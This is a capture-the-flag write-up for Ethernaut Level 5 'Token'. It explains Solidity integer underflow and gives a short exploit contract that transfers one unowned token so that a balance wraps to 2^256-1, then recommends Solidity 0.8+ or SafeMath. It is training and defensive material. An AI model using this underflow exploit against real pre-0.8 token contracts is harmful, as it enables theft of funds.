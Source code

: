 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/5-token.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 5 - Token</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 5 - Token](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-05-token)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Examples](#examples)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/5-token-requirements.webp" width="800px"/>

## The hack

> An odometer or odograph is an instrument used for measuring the distance traveled by a vehicle, such as a bicycle or car.

To succeed at this level, we have to understand the concept of underflow and overflow in solidity. All variables have a maximum value that they can hold, and if you try to add a value that exceeds this maximum, the variable will overflow and start from 0.

And since we are using mostly unsigned integers (uint) in solidity, variables also have a minimum value (0), and if you try to subtract a value that is greater than the current value, the variable will underflow and start from the maximum value.

### Examples

Solidity's unsigned integers have a fixed range of values they can represent. An overflow occurs when a calculation exceeds an unsigned integer's maximum value, and underflow happens when a calculation drops below an unsigned integer's minimum value (which is 0 for unsigned integers).

```javascript
pragma solidity ^0.6.0;

contract Example {
    uint8 public minValue = 0;
    uint8 public maxValue = 255;

    function underflow() public {
        // 0 - 1 = 255 (Underflow)
        minValue--;
    }

    function overflow() public {
        // 255 + 1 = 0 (Overflow)
        maxValue++;
    }
}
```

Fortunately for us, since solidity `0.8.0`, the compiler throws an error when an overflow or underflow occurs. But here, we can take advantage of this since we are using an older version of solidity.

## Solution

Since the contract is using solidity ^0.6.0, and since no `SafeMath` library is used, it is easy to create an underflow.

```javascript
require(balances[msg.sender] - _value >= 0);
```

The following contract will try to transfer 1 token (which he doesn't have) to our address, and the balance will underflow to the maximum value of uint256 (2^256 is a pretty big number).

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
}

contract UnsafeMath {
    address immutable token;

    constructor(address _token) {
        token = _token;
    }

    function attack() public {
        IToken(token).transfer(msg.sender, 1);
    }
}
```

Here is what will happen:

```javascript
require(balances[msg.sender] - _value >= 0); // Passed
// 0 - 1 = 2^256 - 1
balances[msg.sender] -= _value; // balances[msg.sender] = 2^256 - 1;
```

## Takeaway

- Always use a recent version of Solidity (^0.8.0) to benefit from native overflow and underflow checks.
- If you need to interact with a contract using a solidity version older than 0.8.0, always check that the contract is using a SafeMath library or equivalent.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
